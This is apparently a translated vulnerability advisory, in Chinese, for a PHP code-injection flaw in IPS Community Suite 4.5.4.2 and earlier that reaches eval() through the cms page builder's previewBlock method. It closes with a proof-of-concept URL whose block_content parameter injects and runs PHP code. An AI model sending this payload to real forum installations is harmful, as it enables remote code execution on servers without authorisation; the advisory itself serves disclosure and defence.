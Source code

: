 <languages  /> <translate>

簡介
----

</translate> <translate> IPS Community Suite versions 4.5.4.2及以下版本存在 PHP 代碼注入漏洞。 該漏洞的存在是因為`IPS\cms\modules\front\pages_builder::previewBlock()`方法允許將任意內容傳遞給`IPS_Theme::runProcessFunction()`方法，該方法將用於調用`eval()`PHP函數。 這可以被利用來注入和執行任意 PHP 代碼。 成功利用此漏洞需要具有管理側邊欄權限的帳戶（例如版主或管理員）並啟用“cms”應用程序。 </translate>

POC
---

    http://[host]/[ips]/index.php?app=cms&module=pages&controller=builder&do=previewBlock&block_plugin=stats&block_template_use_how=copy&block_plugin_app=core&_sending=block_content&block_content=RCE%0ACONTENT;}}phpinfo();die;/*